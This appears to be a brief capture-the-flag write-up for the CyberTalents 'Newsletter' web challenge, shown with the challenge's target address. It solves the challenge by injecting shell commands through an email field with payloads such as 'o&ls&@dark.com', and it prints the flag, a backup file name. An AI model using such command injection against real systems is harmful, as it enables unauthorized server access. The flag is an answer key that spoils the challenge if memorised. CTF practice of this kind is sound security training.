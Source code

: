# CyberTalents
## Web Security

### Challenge Name:
 [*Newsletter*](https://cybertalents.com/challenges/web/newsletter)
 
### Challenge Description
the administrator put the backup file in the same root folder as the application, help us download this backup by retrieving the backup file name

Link: [http://18.192.3.151/newsletter/](http://18.192.3.151/newsletter/)

### Answer
* Try to inject command in the textbox (notice that he want email in this box)
```
o&pwd&@dark.com
```
* So '&' success to inject command lets get backup file name
```
o&ls&@dark.com
```
* You got the Flag!!


### The Flag
 > hgdr64.backup.tar.gz   
